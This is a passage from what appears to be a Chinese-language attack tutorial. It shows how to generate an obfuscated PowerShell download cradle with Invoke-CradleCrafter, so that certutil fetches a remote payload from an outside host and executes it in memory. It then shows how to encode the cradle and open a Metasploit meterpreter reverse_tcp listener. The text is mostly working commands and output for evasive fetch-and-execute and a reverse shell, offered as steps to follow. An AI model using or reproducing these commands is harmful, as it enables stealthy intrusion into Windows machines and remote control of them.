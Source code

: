 ```plain
Invoke-CradleCrafter\Memory> CERTUTIL

[*] Name          :: Certutil
[*] Description   :: PowerShell leveraging certutil.exe to download payload as string
[*] Compatibility :: PS 2.0+
[*] Dependencies  :: Certutil.exe
[*] Footprint     :: Entirely memory-based
[*] Indicators    :: powershell.exe spawns certutil.exe certutil.exe 
[*] Artifacts     :: C:\Windows\Prefetch\CERTUTIL.EXE-********.pf AppCompat Cache

Invoke-CradleCrafter\Memory\Certutil> ALL


Choose one of the below Memory\Certutil\All options to APPLY to current cradle:

[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)
```

到这里应该会显示如下代码

```plain
Invoke-CradleCrafter\Memory\Certutil\All> 1

Executed:
  CLI:  Memory\Certutil\All\1
  FULL: Out-Cradle -Url 'http://172.20.10.4/key.txt' -Cradle 17 -TokenArray @('All',1)

Result:
SV 1O6 'http://172.20.10.4/key.txt';.(Get-Command *ke-*pr*) ((C:\Windows\System32\certutil /ping (Get-Item Variable:\1O6).Value|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-Skip 2|&(Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand.PsObject.Methods|?{(Get-Variable _ -ValueOn).Name-ilike'*and'}).Name).Invoke((Get-Variable Ex*xt).Value.InvokeCommand.(((Get-Variable Ex*xt).Value.InvokeCommand|GM|?{(Get-Variable _ -ValueOn).Name-ilike'*Com*e'}).Name).Invoke('*el*-O*',$TRUE,1),[Management.Automation.CommandTypes]::Cmdlet)-SkipLa 1)-Join"`r`n")

Choose one of the below Memory\Certutil\All options to APPLY to current cradle:

[*] MEMORY\CERTUTIL\ALL\1       Execute ALL Token obfuscation techniques (random order)
```

将混淆的代码保存到本地为`crt.txt`用`certutil`进行`encode`加密

```plain
certutil -encode crt.txt crt.cer
```

将`cer.cet`放入 http 服务器目录下，使用 msf 开启监听

```plain
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.10.11
lhost => 192.168.10.11
msf6 exploit(multi/handler) > set lport 8888
lport => 8888
msf6 exploit(multi/handler) > run
```
